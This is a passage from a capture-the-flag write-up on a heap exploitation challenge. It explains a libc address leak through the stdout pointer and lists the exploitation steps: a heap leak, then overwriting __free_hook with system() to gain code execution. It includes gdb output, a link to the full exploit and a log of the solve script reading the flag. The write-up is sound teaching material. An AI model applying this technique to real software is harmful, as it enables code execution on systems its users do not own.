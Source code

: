 ### libc pointer leak ###

In order to get a libc leak without the complicated setup mentioned above, we need a pointer to something which itself contains a pointer to libc, so we can read from it with the technique explained above. Thankfully, there's a great candidate in the .bss section: `stdout`.

```
(gdb) info address stdout
Symbol "stdout" is static storage at address 0x404018.
(gdb) x/1a 0x404018
0x404018 <stdout@@GLIBC_2.2.5>: 0x7f8ccea706a0 <_IO_2_1_stdout_>
(gdb) x/2a 0x7f8ccea706a0
0x7f8ccea706a0 <_IO_2_1_stdout_>:       0xfbad2887      0x7f8ccea70723 <_IO_2_1_stdout_+131>
(gdb)
```

Therefore, we can use `psychiatrist()` to read at `0x404018` to get the libc leak (`0x7f8ccea70723` above), and from there the libc base address. We will also need to preserve that first value (`0xfbad2887`) when doing the write required by the function.

### Exploitation steps ###

Once we have our desired primitives, we can formulate an exploit:

1. Use our write primitive detailed above to overwrite the MAX_DREAMS variable, as we will need more allocations for the next steps. There is no PIE (thus no ASLR is used), meaning that we can just plug in the address of the global variable.
2. Get a heap pointer leak to enable our read primitive.
3. Use our read primitive to get libc's base address. Knowing where `dreams` is and where `stdout` is, we can calculate an adequate value for `i` in `dreams[i]`.
4. Use our write primitive to overwrite `__free_hook` in libc to point to the `system()` function, also in libc. Now, the next time we free a structure, the contents of that structure will be passed to `system()`, giving us code execution.

You can find our full exploit [here](https://gist.github.com/00xc/8645bc43757e6232026e6ee7e5ddfbbd).

```
$ python3 solve.py 
[+] Opening connection to challs.actf.co on port 31227: Done
> heap_base: 0x164f000
> libc base: 0x7fd24c137000
> system@libc = 0x7fd24c1892c0
> __free_hook@libc = 0x7fd24c325e48
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
actf{hav3_you_4ny_dreams_y0u'd_like_to_s3ll?_cb72f5211336}
```
